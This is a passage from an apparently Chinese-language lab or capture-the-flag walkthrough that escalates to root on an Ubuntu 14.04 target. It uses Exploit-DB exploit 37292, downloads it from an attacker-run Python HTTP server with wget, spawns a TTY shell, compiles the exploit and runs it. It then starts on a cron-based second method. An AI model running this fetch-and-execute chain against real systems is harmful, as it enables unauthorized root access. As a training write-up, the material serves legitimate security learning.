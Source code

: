  ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniagIkUWiaiaCiaU3aBzmvYB54OUAFiao7GDCNq1Agh0yibZQZMe79MYVE5jiaA/640?wx_fmt=png)

 靶机正在运行 Ubuntu 14.04 和 3.13 内核，看看是否可以找到这些版本的任何特权升级漏洞

**二、提权**

![](https://mmbiz.qpic.cn/mmbiz_png/E2DLw6KKNIl2wuoyBtmicpicCP2ZCggtwolfqBQic5beDSoyRuDUbFQtwT2h9Z2eX8hia4xFjicxewhEmK4DlG4BdLQ/640?wx_fmt=png)

访问 exploit 官网查看到可利用提权 shell

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniaickGrItLoUbibztyC6KWVJ9ia3DmAJpia0jXj0h1icNjoXOiaBgPGibmWCb0g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniauYfmCEoXGpVP6JDjmocwqykcGicfPIBfXW76ZczR3hJMOr08JNgZscA/640?wx_fmt=png)

在 exploit 官网查看可以使用 37292 进行提权（之前文章也遇到过使用 37292 提权）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniaIC9XJDFHm7uFGPn3D2IGbCHjlkgUaicnQQY3OzYGcc3eqIuG2cQXjjQ/640?wx_fmt=png)

cp  /usr/share/exploitdb/exploits/linux/local/37292.c /root 由于之前文章使用过我本地已经有 shell 了，然后使用 python 创建一个服务，通过服务上传 37292.c 到靶机中

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniahY3G659bv5pykl9wZvcgPDbUsR0VEGibv3aQc2vqyOHYcOmm8l5SLqw/640?wx_fmt=png)

命令：python -m SimpleHTTPServer 5555

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniazvLr9L7DjbUia1dW0vGRwClsvrvkJ9eJicfAVPowkDfl1icp1kEhl2Gww/640?wx_fmt=png)

使用 python 获得的 shell 权限后，得使用 ptyhon 获得 tty，使用

命令：python -c 'import pty; pty.spawn("/bin/bash")'

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniaXxWQrmxfu20YIFqZDVqJQsNuz3LM8bfIOykpXM5EP13ObIqK7v0B0w/640?wx_fmt=png)

命令：wget http://192.168.145.143:5555/37292.c

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniavLmZsbAbfNAAw84VxKJJtFH5l0wshnud6fD8iaDTSV43osUHCU74FAA/640?wx_fmt=png)

gcc 37292.c -o dayu

./dayu

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniaXrjhyXKl4h6G9IaVxKU2nYPDkacQ1vwVqqjNrupE7VIW2t8sJuic59g/640?wx_fmt=png)

获得 root 权限，并查看 proof.txt 内容

**三、提权方法**

![](https://mmbiz.qpic.cn/mmbiz_png/E2DLw6KKNIl2wuoyBtmicpicCP2ZCggtwolfqBQic5beDSoyRuDUbFQtwT2h9Z2eX8hia4xFjicxewhEmK4DlG4BdLQ/640?wx_fmt=png)

这台靶机你们会遇到登陆 ssh overflow@192.168.145.149 后会 2 分钟就自动断开会话超时，然后得重新连接，这边继续讲另外一种提权方法（我这边回家操作了 IP 地址变动了）

会话自动断开，原因可能是设置了计划任务

查看日志 / var/log/cronlog

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMicWNmmicnKCib07dL1RwFWniazxtSlib14Ezia8mbdGhz1fM8fYia26p3iaYKnXyE4vmAQeuxZQ0dUwI7tw/640?wx_fmt=png)
